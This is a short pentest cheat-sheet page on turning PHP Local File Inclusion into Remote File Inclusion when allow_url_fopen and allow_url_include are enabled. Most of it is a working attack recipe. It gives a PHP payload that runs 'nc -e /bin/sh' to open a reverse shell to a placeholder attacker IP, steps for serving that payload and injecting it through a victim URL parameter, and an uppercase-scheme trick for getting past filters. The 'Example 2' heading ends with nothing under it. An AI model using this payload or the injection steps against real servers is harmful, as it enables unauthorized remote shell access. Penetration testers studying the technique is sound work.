 ## php


In php.ini file there are some parameters that define this policy:

+ allow_url_fopen
+ allow_url_include

If these functions are enabled (set to ON), then a [LFI](local-file-inclusion-lfi.md) can turned into a Remote File Inclusion. 

### Example 1: http server

**1.** Create a php file with the remote shell

```bash
nano reverse.txt
```

**2.**  In that php file, craft malicious code

```php
<?php
passthru("nc -e /bin/sh <attacker IP> <attacker port>") 
php ?>

```

**3.** Serve that file from you machine (http_serve).

**4.** Get your machine listening in a port with netcat.

**5.** In the injection point from where you can make a call to a URL, serve your file. For instance:

```
https:\\VICTIMurlADDRESS/PATH/PATH/page=http://<attackerip>/reverse.txt

# Sometimes to get php executed on the victim machin (and not the attacker), add an ?
https:\\VICTIMurlADDRESS/PATH/PATH/page=http://<attackerip>/reverse.txt?
```

Sometimes there might be some filtering for the payload (which was: 

```
http://<attackerip>/reverse.txt?). 
````

To bypass it:

```
# using uppercase
https:\\VICTIMurlADDRESS/PATH/PATH/page=hTTP://<attackerip>/reverse.txt

# Other bypassing techniques for slashes
```

### Example 2: http server
